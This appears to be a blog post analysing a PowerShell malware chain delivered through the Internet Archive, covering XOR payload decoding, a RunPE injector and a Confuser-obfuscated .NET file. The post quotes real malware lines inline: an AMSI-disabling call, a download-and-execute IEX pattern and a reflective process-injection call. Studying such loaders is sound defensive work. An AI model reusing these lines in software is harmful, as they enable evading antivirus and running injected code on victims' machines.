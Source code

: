 ```yaml
---
layout: post
title: Abusing Internet Archive
subtitle: Case study - Abusing Internet Archive to deliver Malware
tags: [malware, analysis]
---
```


# Star date 16th March 2021:

Original Twitter post:

![](../assets/Abusing-Internet-Archive/twitter-post.png)

Decided to download the files from the server so I could train my analysis. 

I've downloaded txt, xml, sqlite and torrent files from directories named atomic1 and eset_202102:

![](../assets/Abusing-Internet-Archive/file-list.png)

Comparing files, the only difference was the file name incremented by one, on each directory:

![](../assets/Abusing-Internet-Archive/differences.png)

The first txt file, a powershell script is used to find Windows Defender status using [Get-MpComputerStatus](https://docs.microsoft.com/en-us/powershell/module/defender/get-mpcomputerstatus?view=windowsserver2019-ps&viewFallbackFrom=win10-ps). Depending on the result, one of two files will be downloaded. Unfortunately, I forgot to download "amsi1.txt" file to check  what it would do to Anti Malware Scan Interface, beginner's mistake!

![](../assets/Abusing-Internet-Archive/detect-script.png)

The "eset1.txt" file is a PowerShell script with the extension name changed to txt.

![](../assets/Abusing-Internet-Archive/eset1-1st-look.png)

Depending on the result of ```if (-not ([System.Management.Automation.PSTypeName]"BP.AMS").Type)``` the script takes a different path. In case the condition is false it executes ```[BP.AMS]::Disable()``` to try to disable Anti Malware Scan.

In case the condition is true it defines 2 variables.

![](../assets/Abusing-Internet-Archive/eset1-logic.png)

The first variable contains xor'd byte values and the second has the unxor key. for every value in the byte values variable it xor's the value against the predefined key value containing 5 elements, according to the cursor position and it's counter value. The following is an example of the first 6 operations:

ByteArray[0] = 121 xor 52 = 77
ByteArray[1] = 12 xor 86 = 90
ByteArray[2] = 210 xor 66 = 144
ByteArray[3] = 23 xor 23 = 0
ByteArray[4] = 62 xor 61 = 3
ByteArray[5] = 52 xor 52 = 0

Convert the resulting values to Unicode strings (16 bits) ```$string = [System.Text.Encoding]::Unicode.GetString($byteArray)``` and pipe the results to a file ```Write-Output $string | Out-File -FilePath c:\output\eset1.bin```, yelds a .NET PE executable file wich can be loaded into the application domain of the caller.

I'm commenting a few lines to be able to safely generate any encoded files:

![](../assets/Abusing-Internet-Archive/eset1-commented-1.png)

![](../assets/Abusing-Internet-Archive/eset1-commented-2.png)

The last operation in this script is to download a new txt file "atomic1.txt" using ```IEX (New-Object Net.WebClient).DownloadString```.

![](../assets/Abusing-Internet-Archive/atomic1-first-look.png)

This new file is another PowerShell script, yet again with the extension name changed to txt.

![](../assets/Abusing-Internet-Archive/atomic1-endofscript.png)

To be able to increase the readability of the file, I've searched for any ocurrence of ";" and added 3 empty lines just to increase visibility of the various instructions on the file.

![](../assets/Abusing-Internet-Archive/atomic1-eoi.png)

This allows me to quickly use the minimap to spot large spaces between large variable texts:

![](../assets/Abusing-Internet-Archive/atomic1-minimap.png)

The file contains a condition, depending on if it can find the "aspnet_compiler.exe" file in directory "C:\Windows\Microsoft.NET\Framework\v2.0.50727\" two files are generated. At this point I decided to break the file in two files named "atomic1" and "atomic2", one to generate the positive condition files and another one to generate the negative condition files.

To be able to generate the files contained in the two variables defined in the file, I've commented the ```if([System.IO.File]::Exists("C:\Windows\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe"))``` line:

![](../assets/Abusing-Internet-Archive/atomic1-commented-1.png)

And commented out the injection code ```[Reflection.Assembly]::Load($Cli555).GetType('RunPe.RunPe').GetMethod('Run').Invoke($null,[object[]] ('C:\Windows\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe',$Cli444))``` line:

![](../assets/Abusing-Internet-Archive/atomic1-commented-2.png)

The same commented lines in "atomic1":

![](../assets/Abusing-Internet-Archive/atomic2-commented-1.png)

The same commented lines in "atomic2":

![](../assets/Abusing-Internet-Archive/atomic2-commented-2.png)

Using the same approach as with "eset1.txt" file, I've converted each of the variables to Unicode and used ```Write-Output``` and ```Out-File``` to execute the files in a sand-box VM to generate the files:

![](../assets/Abusing-Internet-Archive/generated-files.png)

After noticing the same file size of a few of the files, I've opened the files in HashMyFiles application to see the hashes of each individual file. Regardless of ```if([System.IO.File]::Exists("C:\Windows\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe"))``` being installed of not, the files generated are the same:

![](../assets/Abusing-Internet-Archive/same-hashes.png)

With that out of way, it was time to identify the files. Each file came up as "Unknown" in Detect It Easy:

![](../assets/Abusing-Internet-Archive/die.png)

After opening the files in a Hex Editor program, I noticed the first 2 bytes in each file were preventing them from being identified as PE files: 

![](../assets/Abusing-Internet-Archive/first-two-bytes.png)

With the first 2 bytes removed from the files, Detect It Easy had no problem in identifying the files. The file generated from "eset1.txt" was identified as a .NET(v4.0.30319) file, and the linker used was Microsoft Linker(11.0)[ DLL32 ]:

![](../assets/Abusing-Internet-Archive/eset1_fixed.png)

With file "atomic1-cli444", Detect It Easy only reported the linker information, it seems this file needs to be further worked on:

![](../assets/Abusing-Internet-Archive/atomic1-444_fixed.png)

File "atomic-cli555" reported that a .NET obfuscator named Confuser(1.X) had been used to obfuscate the .NET (v2.0.50727) file:

![](../assets/Abusing-Internet-Archive/atomic1-555_fixed.png)

Going back to the "eset1" file, using DNSpy decompiler to take a look at the source code:

![](../assets/Abusing-Internet-Archive/eset1-decompiled.png)

After further online investigation, the source used in the script was found in this blog post [Citadel Cyber Security](https://www.citadel.co.il/Home/Blog/1008):

![](../assets/Abusing-Internet-Archive/file_eset1_citadel.png)

Another note was that file "atomic1-cli444" had its .reloc section being flagged as packed in Detect It Easy:

![](../assets/Abusing-Internet-Archive/atomic1-444_fixed-packed-section.png)

By opening "atomic1-cli555" in DNSpy I was left confused, as expected:

![](../assets/Abusing-Internet-Archive/atomic1-555_confused.png)

After searching github for an unpacker that could get rid of the obfuscation appield to the file, I found [https://github.com/ViRb3/de4dot-cex/releases](https://github.com/ViRb3/de4dot-cex/releases), which was able to deobfuscate some parts of file before throwing an error message:

![](../assets/Abusing-Internet-Archive/atomic1-555_fixed-deconfused.png)

By having part of the deobfuscated file I was able to better understand it by searching online and it seems the functionality in the script is derived from a .NET C# script dating back from 2015 named "Aeonhack RunPE C#" (VB version is also available) in [pastebin](https://pastebin.com/Dzhad8rB):

![](../assets/Abusing-Internet-Archive/atomic1-555_possible-source.png)

A raw view of the script:

![](../assets/Abusing-Internet-Archive/atomic1-555_possible_source_raw.png)

The pastebin script side by side with the deobfuscated file:

![](../assets/Abusing-Internet-Archive/file_atomic1-555_pastebin.png)
